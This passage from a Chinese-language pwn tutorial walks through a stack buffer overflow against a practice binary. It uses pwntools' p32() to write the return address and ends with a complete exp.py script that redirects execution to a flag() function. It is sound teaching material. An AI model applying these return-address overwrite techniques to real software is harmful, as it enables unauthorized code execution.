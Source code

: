 我们已经成功改变了程序的执行流程，调用了 `flag()` 函数！

## 0x07 Pwntools 和 字节顺序

毫不奇怪，你并不是第一个想到「能否使字节顺序书写变得更简单」的人。
幸运的是，`pwntools` 有一个内置的 `p32()` 函数可供使用！

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

改为：

```python
payload += p32(0x080491c3)
```

这样就简单多了。唯一需要注意的是它返回字节而不是字符串，因此你必须
将溢出 Padding 设置为字节字符串：

```python
payload = b'A' * 52 # 注意 "b"
```

否则你会得到一个这样的报错：

```
TypeError: can only concatenate str (not "bytes") to str
```

## 0x08 最终的 Exploit 脚本

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = process('./vuln')

payload = b'A' * 52
payload += p32(0x080491c3)

p.sendline(payload)

p.interactive()
```
